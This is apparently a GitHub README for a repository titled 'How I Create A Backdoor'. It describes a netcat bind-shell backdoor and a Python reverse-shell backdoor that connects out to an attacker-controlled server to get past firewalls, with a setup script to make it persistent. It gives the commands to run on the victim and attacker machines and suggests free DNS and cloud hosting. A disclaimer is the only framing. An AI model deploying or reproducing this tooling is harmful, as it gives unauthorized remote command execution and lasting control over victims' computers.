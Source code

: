 # How I Create A Backdoor 😎

![Linux-ok](https://img.shields.io/badge/Linux-ok-green) ![MacOS-ok](https://img.shields.io/badge/MacOS-ok-green) ![Window-ok](https://img.shields.io/badge/Window-todo-lightgrey) [![presentation](https://img.shields.io/badge/presentation-a)](https://slides.com/kysterdraw/how-i-create-a-backdoor)

## ⚠️ Disclaimer
> Any actions and or activities related to the material contained within this repository is solely your responsibility. The misuse of the information in this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this repository to break the law.

<br />

## 👌🏻 Basic Backdoor
### Description
Basic backdoor is the easiest backdoor that you could make.
The victim is just a server that redirects incoming messages into a shell and then sends back the shell output.
The victim IP can be found easly with `nmap`.

**⚠️ You usually need to be on the same subnet of the victim**

### Pre-requirements
- [netcat](http://netcat.sourceforge.net/) *(usually already installed)*

### Usage
```bash
# On the victim
./basic-backdoor/backdoor.sh
```

```bash
# On the attacker
nc $VICTIM-IP 8080
```

<br />

## 💪🏻 Advanced Backdoor
### Description
This advanced backdoor allows to bypass the firewall and to communicate outside subnetwork.
Now the victim is just a client, the attacker is the server. When the victim is connected to the attacker's server, he'll execute command provided by the attacker and then send it back its output.
You can configure `PORT` and `DNS` inside the files [backdoor-client.py](./advanced-backdoor/backdoor-client.py) and [backdoor-server.py](./advanced-backdoor/backdoor-server.py).

> You can use [freenom](https://my.freenom.com) to get a free DNS.
> You can use [aws](https://aws.amazon.com/fr/ec2/) to get free server.

### Pre-requirements
- [python3](https://www.python.org/download/releases/3.0/) *(usually already installed)*
- [pip](https://pip.pypa.io/en/stable/installing/) **(only for attacker)**

### Usage
```bash
# On the victim for non-permanent backdoor
./advanced-backdoor/backdoor-client.py

# ⚠️ On the victim for "PERMANENT" backdoor
./advanced-backdoor/setup.sh
```

```bash
# On the attacker (where the DNS is pointing to)
pip3 install -r ./advanced-backdoor/requirements.txt
./advanced-backdoor/backdoor-server.py
```

----

*➡️ Take time to understand how it's working, PR are welcomed*
